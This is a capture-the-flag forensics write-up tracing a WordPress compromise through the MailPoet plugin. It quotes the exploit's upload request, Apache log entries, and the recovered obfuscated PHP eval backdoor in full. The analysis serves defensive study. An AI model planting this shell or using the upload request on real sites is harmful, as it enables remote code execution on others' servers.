 Messing with the logs at this poit was a possibility, but i decided that probably if I had more details on the wordpress installation itself, this would have helped me out more in filtering the log results.

I reset my instance of the blog and logged in as admin to check for the list of installed plugins, and verify if at least one of them was vulnerable.

{% img center /images/2014/csaw/fluffynomore/mailpoet.png %}

Mail Poet newsletter pulled my attention as it was the only plugin that was alerting that a new version was available, so why not look in public repositories if an exploit for the installed version is available?

I browsed exploit-db and it resulted that a metasploit module to gain remote code execution on this specific wordpress plugin is available.

{% img center /images/2014/csaw/fluffynomore/edb.png %}

By a quick look at the exploit code, it's possible to figure out that an attacker can upload an arbitrary payload by sending the following POST request

```ruby
res = send_request_cgi({
  'method'   => 'POST',
  'uri'      => uri,
  'ctype'    => "multipart/form-data; boundary=#{data.bound}",
  'vars_get' => { 'page' => 'wysija_campaigns', 'action' => 'themes' },
  'data'     => post_data
})
```

and if we look at the apache access log, we could find:

	192.168.127.140 - - [16/Sep/2014:20:42:54 +0000] "POST /wp-admin/admin-post.php?page=wysija_campaigns&action=themes HTTP/1.1" 302 385 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"

Ok, now let's see if we can find the uploaded malicious file, according to the exploit code, the call for the payload is done as follows:

```ruby
	payload_uri = normalize_uri(target_uri.path, 'wp-content', 'uploads', 'wysija', 'themes', theme_name, payload_name)
```

so by grepping the logs again we could find

	192.168.127.140 - - [16/Sep/2014:20:42:54 +0000] "GET /wp-content/uploads/wysija/themes/weblizer/template.php HTTP/1.1" 200 165 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)

Let's give a look at this file, it's most likely gonna be malicious, and in fact

```php
<?php
$hije = str_replace("ey","","seyteyrey_reyeeypleyaeyceye");
$andp="JsqGMsq9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSsqk9PSdoYScgJisqYgsqJsqGMoJ";
$rhhm="nsqKSwgam9pbihhcnJheV9zbGljZSgkYSwksqYygkYSksqtMykpKSksqpO2VjaG8sqgJsqzwvJy4kay4nPic7fQ==";
$pvqw="GEpPjMpeyRrPSdja2l0JztlY2hvICc8Jy4kaysq4nPicsq7ZXZhbChsqiYXNlNjRfZGVjb2RlKHByZsqWdfcmVw";
$wfrm="bGFjZShhcnsqJheSsqgsqnsqL1teXHcsq9XHNdLycsJy9ccy8nKSwgYsqXJyYXksqoJycsJyssq";
$vyoh = $hije("n", "", "nbnansne64n_ndnecode");
$bpzy = $hije("z","","zczreaztzez_zfzuznzcztzizon");
$xhju = $bpzy('', $vyoh($hije("sq", "", $andp.$pvqw.$wfrm.$rhhm))); $xhju();
?>
```
